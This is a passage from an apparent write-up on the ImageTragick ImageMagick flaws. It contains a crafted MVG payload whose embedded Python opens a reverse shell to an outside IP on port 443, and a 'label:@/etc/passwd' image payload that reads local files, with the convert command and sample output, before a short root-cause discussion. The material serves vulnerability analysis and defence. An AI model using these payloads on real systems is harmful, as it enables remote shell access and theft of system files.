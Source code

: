 
A variation would be to pack the python, avoiding the download step which adds a level of brittleness to the exploit, as the host might not have outbound network connectivity, and so on:

    fill 'url(https://example.com/image.jpg"|/bin/echo -e \'import 
    socket\x2csubprocess\x2cos;s=socket.socket(socket.af_inet\x2csocket.sock_stream);
    s.connect(("xx.xx.24.85"\x2c443));p=subprocess.call(\x5b"/bin/sh"\x2c"-i"\x5d);\'
    > /dev/shm/a.py|python "/dev/shm/a.py)'



## Local file read

In a similar vain to the insufficient shell character filtering potentially enabling remote code execution, ImageMagicks `label` psudeo protocol, opens a whole other can of worms, making it possible to read the contents of any file. The below example file input payload, when fed into the `convert` utility, will literally read `/etc/passwd`, and render its contents in the output `out.png`.

The input image payload `read.jpg`:

    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'label:@/etc/passwd'
    popgraphic-context

Invoking ImageMagick's `convert` utility to take the image as input, will convert and render it as another output:

    convert read.jpg out.png 2>/dev/null 1>/dev/null

Examining the output rendered file:

    root@kali:~/git/PoCs# cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ...





# Root cause analysis

As @zalewski puts it, the ImageTragick flaw is most notable for its ease of exploitation.

> "an embarrassingly simple shell command injection bug reminiscent of the security weaknesses prevalent in the 90's, and nearly extinct in core libraries in use today" (@zalewski)

For all of ImageMagick's virtues, it is not designed with malicious inputs in mind, and has a long and colorful history of lesser known but equally serious security flaws. If you had only one data point, look no further than the work done by @cunningham circa 2014. @cunningham fuzzed ImageMagick with a `afl-fuzz`, and soon revealed nearly a couple of dozen exploitable security holes.

A more recent fuzzing effort by @hanno uncovered another family of heap related bugs, using only off-the-shelf fuzzing tools.
